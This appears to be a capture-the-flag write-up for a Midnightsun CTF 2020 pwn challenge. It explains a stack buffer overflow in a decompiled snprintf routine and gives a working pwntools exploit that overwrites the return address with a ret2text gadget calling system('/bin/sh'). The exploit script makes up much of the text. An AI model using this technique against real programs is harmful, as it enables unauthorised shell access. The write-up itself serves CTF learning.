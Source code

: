 ```c
  }
  if ( *var_rsp )
  {
    n = snprintf(ptr, maxlen, "%s", var_rsp);
    if ( n < 0 )
      exit(1);
    ptr += n;
    maxlen -= n;      // thrid, bof here
  }
  fprintf(stderr, "%s\n", &buf);
```

> bof is enable while `authed=1` 

This elf64 program use format string `%s` to print our input string to `ptr`(in stack) , so only one gadget can be used beacuse bad code `\x00` in address of gadget will terminal our input. 

>  ROP is not a good idea.

But ret2text is still available, only one gadget is enough: 

```nasm
.text:0000000000401598  mov     rdi, rax        ; command
.text:000000000040159B  call    _system
```

Before ret2text ,we should set `rax` point to `"/bin/sh"`. This work can be done by selected [1]auth one more time and set the begining of username to `"/bin/sh;"`.

### Solution

```python
system = 0x000000000401598 

# elf, libc
satck = 0x4040E0+0x100
# rop1
offset = 282
payload = ''
payload += 'A'*offset
payload += p64(system)
payload = payload.ljust(1000,'\0')

# auth flag = 1
sla(' > ','1')
sla('  Input username: ','admin'+'a'*1000)
sla('  Input password: ','password233')

# rax <- /bin/sh;
sla(' > ','1')
sla('  Input username: ','/bin/sh;'+'b'*1000)

sla(' > ','2')
# debug('b *0x4015A1\nb *0x040121A')
sla('  Command to execute: ',payload)

p.interactive()
```

> focus on the layout of regs is helpful while pwning ---

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/MidnightsunCTF2020/pwn/admpanel2) 